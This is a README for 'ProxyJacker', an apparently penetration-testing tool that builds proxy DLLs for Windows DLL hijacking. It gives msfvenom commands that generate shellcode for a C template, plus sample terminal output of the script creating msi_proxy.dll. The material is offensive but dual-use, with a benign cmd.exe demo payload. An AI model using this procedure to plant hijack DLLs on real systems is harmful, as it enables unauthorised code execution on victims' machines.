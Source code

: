 # ProxyJacker

### Details:

​	Tool for creating forwarding dll for exploiting dll hijacking vulnerability. 

### Requirements:

- [ ] Mingw-64 installed.
- [ ] python2. 
- [ ] PEfiles lib.

### Procedure: 

1. Create shellcode with msfvenom and replace with template file with `YOUR SHELLCODE` 

   ```bash
   msfvenom -p windows/x64/exec cmd=cmd.exe -f c -b "\x00" //FOR 64bit
   msfvenom -p windows/exec cmd=cmd.exe -f c -b "\x00" //FOR 32bit
   ```

2. Run script.

   ```
   kali@kali:~/Music/hijack/proxyjacker$ python proxydllhijacker.py 
   
   Proxy DLL Creator For DLL HIjacking
   		 By 
   	   Rikunj Sindhwad 
   	     [Mr.R0b07]
   
   
   Usage: proxydllhijacker.py 'DLL File Location' 
   
   Usage: proxydllhijacker.py '/home/kali/xyz/abc.dll' 
   
   kali@kali:~/Music/hijack/proxyjacker$ python proxydllhijacker.py msi.dll
   
   Proxy DLL Creator For DLL HIjacking
   		 By 
   	   Rikunj Sindhwad 
   	     [Mr.R0b07]
   
   [*] DLL is 32bit 
   
   [*] Defination File Created with name of export.def
   
   [*] Created 32bit DLL : msi_proxy.dll
   kali@kali:~/Music/hijack/proxyjacker$ ls 
   export.def  msi.dll  msi_proxy.dll  proxydllhijacker.py  template_64.c  template.c
   ```
   #### credits: Pentester Academy for teaching such great stuff 


   

